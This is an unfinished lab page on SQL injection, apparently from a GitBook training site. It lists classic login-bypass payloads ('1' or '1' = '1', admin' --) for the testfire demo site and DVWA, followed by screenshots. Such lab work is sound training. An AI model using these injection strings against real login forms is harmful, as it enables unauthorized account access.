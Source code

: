 # LAB:SQL Injection

Demo page: [https://demo.testfire.net/index.jsp](https://demo.testfire.net/index.jsp)

Login with:&#x20;

1\) 1' or '1' = '1
\
2\) admin' --



**DVWA**

'or' 1=1

![](<../.gitbook/assets/image (5).png>)\
![](../.gitbook/assets/image.png)

<figure><img src="../.gitbook/assets/image (2).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../.gitbook/assets/image (3).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../.gitbook/assets/image (4).png" alt=""><figcaption></figcaption></figure>



_in progress..._

